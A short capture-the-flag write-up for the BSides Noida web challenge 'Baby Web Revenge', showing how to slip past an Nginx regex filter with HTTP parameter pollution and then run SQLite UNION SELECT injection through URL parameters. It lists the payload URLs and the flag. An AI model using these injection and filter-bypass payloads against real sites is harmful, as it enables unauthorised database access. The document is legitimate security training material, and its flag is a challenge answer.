


# BSides Noida CTF - Baby Web Revenge (24 solves)

> So close yet so far

**Category**: web

**Given**: 
- [baby_web_revenge.zip](handouts/baby_web_revenge.zip): Source code & web server configuration for backend

**Requirements**: N/A

**Solution Files**: N/A

**TL;DR**: Bypass Nginx regex filter by either [parameter pollution](https://securityintelligence.com/posts/how-to-prevent-http-parameter-pollution) or [exploiting PHP parser](https://www.php.net/variables.external), then `UNION SELECT` flag table.

### Overview
TODO

### Exploit

Get table strucures:
```
http://ctf.babywebrevenge.bsidesnoida.in/?chall_id=1&chall_id=0+UNION+SELECT+sql,2,3,4,5,1+FROM+sqlite_master
```


Get flag:
```
http://ctf.babywebrevenge.bsidesnoida.in/?chall_id=1&chall_id=2+UNION+SELECT+1,2,3,4,5,flag+FROM+therealflags
```


**Flag**: BSNoida{4_v3ry_w4rm_w31c0m3_2_bs1d35_n01d4_fr0m_4n_1nt3nd3d_s01ut10nxD}